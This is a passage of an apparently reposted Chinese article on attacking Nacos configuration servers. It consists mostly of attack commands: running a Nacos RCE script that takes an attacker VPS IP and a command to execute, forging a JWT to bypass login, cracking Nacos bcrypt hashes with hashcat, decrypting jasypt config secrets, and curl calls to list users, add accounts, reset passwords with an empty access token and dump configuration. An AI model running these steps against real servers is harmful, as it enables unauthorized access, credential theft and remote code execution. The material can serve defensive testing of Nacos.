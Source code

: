 Nacos_Rce.py -t 192.168.67.129 -p 5000 -u http://192.168.67.134:8848 -c whoami  
  
#-t vps ip  
  
#-p 端口地址  
  
#-u nacos web地址  
  
# -c 指定命令  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiahAuHXrTBrgHicuCUfIfHu7zrMpeRL9YpXiaxAHAib8sFAWR6UqtF3iaRDw/640?wx_fmt=jpeg&from=appmsg&wxfrom=5&wx_lazy=1&tp=wxpic "")  
  
如果显示未知用户或者未找到用户，则表示nacos启用了鉴权需要伪造JWT绕过登陆授权，在文件Nacos_Rce.py文件中设置请求头即可。只要能够绕过登陆授权，就可能能RCE。  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiaBZc7dz3kUGm9wKTUxZZHX8sgvAKpcShO7junCiaH4W6HG9ppmjvQiakg/640?wx_fmt=jpeg&from=appmsg&wxfrom=5&wx_lazy=1&tp=wxpic "")  
  
  
```
```  
  
### 10. 密码破解  
### nacos密码bcrypt  
  
hashcat -a 0 -m 3200 hashes.txt rockyou.txt -w 3 -O -D 1,2 --show  
### 配置文件密文 jasypt  
  
java -cp jasypt-1.9.3.jar org.jasypt.intf.cli.JasyptPBEStringEncryptionCLI input="123456" password="salt123" algorithm="PBEWithMD5AndDES"  
  
java -cp jasypt-1.9.3.jar org.jasypt.intf.cli.JasyptPBEStringDecryptionCLI input="MecKdyPwwkD+AqUKPy1GlQ==" password="salt123" algorithm="PBEWithMD5AndDES"  
### 11、常用命令  
  
http://127.0.0.1:8848/nacos/v1/console/server/state  
  
http://xx.xx.xx.xx/v1/console/server/state  
  
http://127.0.0.1:8848/nacos/v1/auth/users?search=accurate&pageNo=1&pageSize=9   get查询用户  
  
curl -v --data-binary "username=test&password=123456" "http://127.0.0.1:8848/nacos/v1/auth/users"  post添加用户  
  
curl -X PUT 'http://127.0.0.1:8848/nacos/v1/auth/users?accessToken=' -d 'username=test&newPassword=test123'  修改密码  
  
http://127.0.0.1:8848/nacos/v1/cs/configs?search=accurate&dataId=&group=&pageNo=1&pageSize=99  获取配置信息  
  
http://127.0.0.1:8848/nacos/v1/core/cluster/nodes  获取集群信息  
  
curl --data-binary "username=nacos&password=nacos" "http://127.0.0.1:8848/nacos/v1/auth/users/login"  登陆  
  
  
  
原文链接：  
https://www.freebuf.com/articles/web/428863.html  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/UM0M1icqlo0knIjq7rj7rsX0r4Rf2CDQylx0IjMfpPM93icE9AGx28bqwDRau5EkcWpK6WBAG5zGDS41wkfcvJiaA/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
声明：  
技术文章均收集于互联网，仅作为本人学习、记录使用。  
侵权删  
！  
！  
！  
  
  
